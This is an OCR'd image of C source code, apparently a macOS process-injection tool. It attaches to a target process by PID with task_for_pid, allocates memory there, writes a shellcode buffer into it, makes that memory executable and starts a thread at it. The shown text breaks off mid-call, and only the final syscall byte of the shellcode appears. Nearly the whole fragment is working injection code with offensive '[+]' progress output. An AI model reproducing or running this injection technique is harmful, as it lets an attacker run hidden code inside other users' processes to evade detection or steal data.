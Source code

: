 ```cpp
  /* 0018 */ "\x0f\x05";                                /* syscall                         */


int main(int argc, char *argv[]) {
  if (argc != 2) {
    fprintf(stderr, "usage: %s <pid>\n", argv[0]);
    return 1;
  }

  pid_t pid = atoi(argv[1]);
  task_t task;
  kern_return_t kr = task_for_pid(mach_task_self(), pid, &task);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] task_for_pid() failed: %s\n", mach_error_string(kr));
    return 1;
  }
  printf("[+] attached to pid %d\n", pid);

  mach_vm_address_t remote_addr = 0;
  vm_size_t shellcode_size = sizeof(shellcode);

  kr = mach_vm_allocate(task, &remote_addr, shellcode_size, VM_FLAGS_ANYWHERE);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] mach_vm_allocate failed: %s\n", mach_error_string(kr));
    return 1;
  }
  printf("[+] allocated memory at 0x%llx\n", remote_addr);

  kr = mach_vm_write(task, remote_addr, (vm_offset_t)shellcode, shellcode_size);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] mach_vm_write failed: %s\n", mach_error_string(kr));
    return 1;
  }
  printf("[+] wrote shellcode\n");

  kr = mach_vm_protect(task, remote_addr, shellcode_size, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] mach_vm_protect failed: %s\n", mach_error_string(kr));
    return 1;
  }
  printf("[+] set memory protections to RX\n");

  // setup new thread state
  x86_thread_state64_t state;
  thread_act_t thread;
  mach_msg_type_number_t state_count = x86_THREAD_STATE64_COUNT;
  memset(&state, 0, sizeof(state));

  // set instruction pointer (rip) to our shellcode
  state.__rip = remote_addr;

  // stack pointer (rsp) should be valid; just allocate a dummy stack
  mach_vm_address_t remote_stack = 0;
  kr = mach_vm_allocate(task, &remote_stack, 0x1000, VM_FLAGS_ANYWHERE);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] mach_vm_allocate (stack) failed: %s\n", mach_error_string(kr));
    return 1;
  }
  state.__rsp = remote_stack + 0x1000 - 8; // stack top aligned

  kr = thread_create_running(task,
    x86_THREAD_STATE64,
    (thread_state_t)&state,
```